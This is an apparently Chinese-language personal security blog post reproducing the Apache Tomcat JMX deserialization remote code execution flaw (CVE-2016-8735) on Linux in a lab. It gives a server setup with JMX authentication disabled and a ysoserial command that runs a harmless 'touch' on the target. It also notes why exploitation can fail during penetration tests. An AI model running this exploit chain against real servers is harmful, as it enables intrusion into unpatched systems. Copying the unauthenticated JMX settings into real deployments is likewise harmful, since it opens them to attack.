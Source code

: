 ```yaml
---
layout:     post
title:      "Apache Tomcat Remote Code Execution(CVE-2016-8735)"
subtitle:   "On Way"
date:       2016-12-10
author:     "Urahara"
header-img: "img/Tomcat.png"
header-mask: 0.3
tags:
    - Tomcat 
    - 反序列化
    - Remote Code Execution


---
```


### Versions Affected

```
Apache Tomcat 9.0.0.M1 to 9.0.0.M11
Apache Tomcat 8.5.0 to 8.5.6
Apache Tomcat 8.0.0.RC1 to 8.0.38
Apache Tomcat 7.0.0 to 7.0.72
Apache Tomcat 6.0.0 to 6.0.47
Earlier, unsupported versions may also be affected.
```

### Description

​	这个漏洞实质还是JMX反序列化漏洞，tomcat同样也用了JmxRemoteLifecycleListener这个监听器，但是tomcat在Oracle修复这个漏洞后自己没有及时更新，导致了反序列还依旧存在。网上搜了很多关于该漏洞的分析文章基本上都是0c0c0f牛在微信公众号里文章的转载或是变种，也基本都是在window系统上做的测试，所以也就想在linux也测试一下，也就有了这篇文章，大牛们勿喷呐= =、。

### Test Environment

> Linux Ubuntu server x86
>
> **Apache Tomcat** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/apache-tomcat-8.0.36.tar.gz)
>
> **catalina-jmx-remote** (http://archive.apache.org/dist/tomcat/tomcat-8/v8.0.36/bin/extras/catalina-jmx-remote.jar)  //添加至%TOMCAT_HOME%/lib/目录下
>
> **Groovy** (https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar)    //添加至 %TOMCAT_HOME%/lib/目录下
>
> **POC** (https://github.com/frohoff/ysoserial)

### Test Steps

1. 修改 tomcat server.xml 配置文件，添加以下内容：

   ```
   <Listener className="org.apache.catalina.mbeans.JmxRemoteLifecycleListener" rmiRegistryPortPlatform="10001" rmiServerPortPlatform="10002" />
   ```

2. 修改 tomcat/bin 目录下 catalina.sh ，在# ----- Execute The Requested Command --------处添加以下内容：

   ```
   # ----- Execute The Requested Command -----------------------------------------
   CATALINA_OPTS="$CATALINA_OPTS
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false  //设为无账号密码认证
   -Djava.rmi.server.hostname=192.168.64.7"  //设置hostname为服务器ip地址，否则JMX无法进行远程访问
   ```

3. ./startup.sh启动tomcat服务

4. 执行POC

   ```
   java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.64.7 10001 Groovy1 "touch /tmp/tomcat_test"
   ```

   ![Tomcat-CVE-2016-8735](http://reverse-tcp.xyz/img/Tomcat-CVE-2016-8735.png)

   -----

   ​	关于linux配置tomcat运行远程监控（JMX）这里有个坑，网上搜到的绝大多数关于linux下tomcat jmx配置的文章，都使用了只修改catalina.sh为以下内容的方法，包括[Zabbix Wiki](https://www.zabbix.com/documentation/2.0/manual/config/items/itemtypes/jmx_monitoring)也是推荐的这种方式：

   ```
   CATALINA_OPTS="$CATALINA_OPTS 
   -Dcom.sun.management.jmxremote
   -Dcom.sun.management.jmxremote.port=9999
   -Dcom.sun.management.jmxremote.ssl=false
   -Dcom.sun.management.jmxremote.authenticate=false
   -Djava.rmi.server.hostname=192.168.64.7"
   ```

   ​	但就这种方式而言，需要注意的是 catalina.sh 中提供的默认变量名 JAVA_OPTS 和 CATALINA_OPTS。由于 JAVA_OPTS 所添加的参数会在 tomcat 开启和关闭时都运行，所以如果你把 `Dcom.sun.management.jmxremote.port=9999` 写在 JAVA_OPTS 中时，关闭服务的时候是会报错的，而且在该漏洞场景中攻击利用也是不会成功的，因此需要注意的是在平常渗透过程当中若在linux下遇到了该漏洞，利用不成功也是正常的。

   -----

   ### Referer

   [http://seclists.org/oss-sec/2016/q4/502](http://seclists.org/oss-sec/2016/q4/502)

   微信公众号：0c0c0f

   ​
